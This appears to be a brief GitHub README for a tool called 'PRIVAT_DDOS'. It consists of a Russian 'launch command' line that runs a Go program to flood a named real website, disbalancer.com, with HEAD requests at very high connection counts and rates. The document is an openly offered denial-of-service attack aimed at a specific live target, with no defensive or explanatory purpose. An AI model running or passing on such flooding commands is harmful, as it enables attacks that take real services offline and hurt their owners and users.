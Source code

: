 # PRIVAT_DDOS
Команда для запуска 
go run govno.go -u https://disbalancer.com/ -m HEAD -n 250000 -t 10000s -r 1000000
